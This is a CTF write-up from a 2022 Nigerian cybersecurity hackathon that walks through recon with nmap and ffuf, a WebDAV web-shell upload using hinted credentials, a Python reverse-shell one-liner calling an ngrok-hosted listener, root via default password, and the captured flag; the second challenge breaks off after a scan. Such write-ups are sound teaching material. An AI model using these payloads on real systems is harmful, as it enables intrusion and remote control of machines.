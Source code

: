 ```yaml
---
layout: default
title : n16hth4wk - abcccyberhackathon CTF 2022 Writeup
---
```


### CTF Overview

As part of the 2021 Cybersecurity Conference, the American Business Council Nigeria (ABC Nigeria) was Organized by NaijaSecForce in partnership with Private Sector partners are hosting a Cybersecurity Hackathon. The objective of the hackathon is to highlight the capacity in the space and show the importance of implementing a cybersecurity framework in Nigeria.

The Hackathon will award innovators for displaying their level of expertise and skills in developing solutions to cyber challenges. A Cyber Award will be allocated in kind and will be distributed among the top three winners. 

Cyber Awards will be awarded to the top three teams. Prices includes Laptops, Cybersecurity Certificates, Bootcamp for winners on Security in IBM Cloud, Cisco Certified CyberOps Associate Certifications for the Team Captains and Merchandise. The Award is sponsored by Cisco, IBM, Comercio and American Business Council.

### pwn challenges writeup by nighthawk

### Linux Method - 1000pts

![1](https://user-images.githubusercontent.com/87468669/194117552-e6e33a3e-ef89-44bd-8c3d-cf939fc8c058.png)

Hmmmm we got an IP and a port, let's us nmap to check and  know what service is running on that port.

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~]
└─$ nmap -sC -sV  185.203.119.220 -p 8003  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 09:54 CDT
Nmap scan report for 185.203.119.220
Host is up (0.20s latency).
PORT     STATE SERVICE VERSION
8003/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.04 seconds
```

noice from our scan we can see that an http apache service is running on that port. let's check it on our browser

![2](https://user-images.githubusercontent.com/87468669/194118284-8c40afac-04bb-4eb0-8c17-4f49048db7b9.png)

sweet… let's check the source page if Muzec have anything for us

![3](https://user-images.githubusercontent.com/87468669/194118623-cf2c96ff-0d32-412a-9735-2ace7305c990.png)

hmmmm… abcctf should help in our journey you say. 🤔

let's burst hidden directory with ffuf

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/method]
└─$ ffuf -u "http://185.203.119.220:8003/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php,.txt,.phtml,.bak,.sh -fs 282 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://185.203.119.220:8003/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .phtml .bak .sh 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 282
________________________________________________

_backup                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 202ms]
index.html              [Status: 200, Size: 10772, Words: 3544, Lines: 369, Duration: 166ms]
webdav                  [Status: 401, Size: 464, Words: 42, Lines: 15, Duration: 167ms]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 163ms]
:: Progress: [28278/28278] :: Job [1/1] :: 95 req/sec :: Duration: [0:02:46] :: Errors: 22 ::
```

nice we got somethings interesting but trust me you'll only want to take a look at the webdav directory.

![4](https://user-images.githubusercontent.com/87468669/194121126-27a27eea-fa0f-4182-a088-adcd2572aaa4.png)

hmmmmmm... We are asked to login 😬. but hope you did not forget what Muzec-san left for us in the default apache web source page "abcctf should help you in your journey...." 😉, so let's try login with username: abcctf and password:abcctf.

![image](https://user-images.githubusercontent.com/87468669/194122426-a83ae6f3-4847-462b-a515-a4194cc97c7b.png)

Boom! we are in and we can see the file nothing.txt... let's check its content

![image](https://user-images.githubusercontent.com/87468669/194123641-6ce5f4a2-ed4d-48b6-b238-c3ec8eb48f98.png)

lol nothing really???? let's scroll down to the bottom of the page

![image](https://user-images.githubusercontent.com/87468669/194123866-9fd5e243-27f0-498c-a974-6cfc1dc925f2.png)

there's a piece of advice to prevent other players from either gaining access with your shell or get hint from it 😉.
Now we know it's running webdav, let's exploit our way and gain reverse shell. in this process we would be using cadaver to upload our shell then get a reverse shell shell. 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/method]
└─$ cadaver http://185.203.119.220:8003/webdav/
Authentication required for webdav on server `185.203.119.220':
Username: abcctf
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 348 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        nothing.txt                          374  Oct  2 22:37
        shell.php                            348  Oct  5 12:42
dav:/webdav/> 

```

we did that now let's check back the webpage to see our shell 

![image](https://user-images.githubusercontent.com/87468669/194126637-3fd3164f-2b79-4724-9a26-c1839c539120.png)

great we can execute some commands on the shell we uploaded

![image](https://user-images.githubusercontent.com/87468669/194126743-bb62ec9f-8cff-43c3-a430-d396f391a395.png)

Now let get a reverse shell using ngrok.

![image](https://user-images.githubusercontent.com/87468669/194126878-06588b8b-f61b-4b65-8f38-3e4a0aa10846.png)

ping our ngrok.io to get an ip address
```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/method]
└─$ ping -c 2 2.tcp.eu.ngrok.io
PING 2.tcp.eu.ngrok.io (3.126.37.18) 56(84) bytes of data.
64 bytes from 3.126.37.18 (3.126.37.18): icmp_seq=1 ttl=234 time=160 ms
64 bytes from 3.126.37.18 (3.126.37.18): icmp_seq=2 ttl=234 time=146 ms

--- 2.tcp.eu.ngrok.io ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 145.905/152.805/159.706/6.900 ms

```
ncat listener ready

![image](https://user-images.githubusercontent.com/87468669/194132884-d3427e33-34de-4291-a5fc-5ecdbc8c12a7.png)

reverse shell payload 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.126.37.18",18416));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/194127758-cb433e30-7425-45a6-8d5d-f8cac0fd0ca2.png)

Checking our ncat listener, Boom! we got a shell 😅

![image](https://user-images.githubusercontent.com/87468669/194127891-58614c0b-9f2b-4c9c-883a-99f5e08fa298.png)

let's stabilize the shell and escalate priv to root. by just doing su root and password:toor gave us the root shell

![image](https://user-images.githubusercontent.com/87468669/194134825-2b1842db-c10c-41b2-a779-a2ebcb09da87.png)

Now hunting for the flag, i did ```find / 2>/dev/null | grep -i "flag"```


![image](https://user-images.githubusercontent.com/87468669/194135145-6a7f239b-d41e-43b6-9782-be818e78c9f1.png)

final flag - abcctf{345Y_r007_W17H_D3F4U17_Cr3D5}

sweet challenge from Muzec-san.

### Pain - 1500pts

![image](https://user-images.githubusercontent.com/87468669/194135616-d4c951a1-204b-42e9-a84a-656671c6c53f.png)

We got 2 IPs and ports again this really will be Pain 💉💉💉. Regardless we move. As we can see the first IP is an http server, let's use nmap to check and know what service is running on that port 2222.

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/abcctf/Pain]
└─$ nmap -sC -sV  185.203.119.220 -p 2222  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 13:38 CDT
Nmap scan report for 185.203.119.220
Host is up (0.67s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f3:c8:21:9a:27:8e:62:7c:be:5c:31:0b:d8:bf:46:86 (ECDSA)
|_  256 45:74:d1:d7:94:a7:a6:b3:12:4b:91:7f:6e:a5:e0:4a (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.43 seconds
```

Nice we now know port 2222 is an ssh port, so let's go back to the first IP which is a an http web server 

![image](https://user-images.githubusercontent.com/87468669/194166210-d862130f-5678-4260-b308-ad6179b5f481.png)






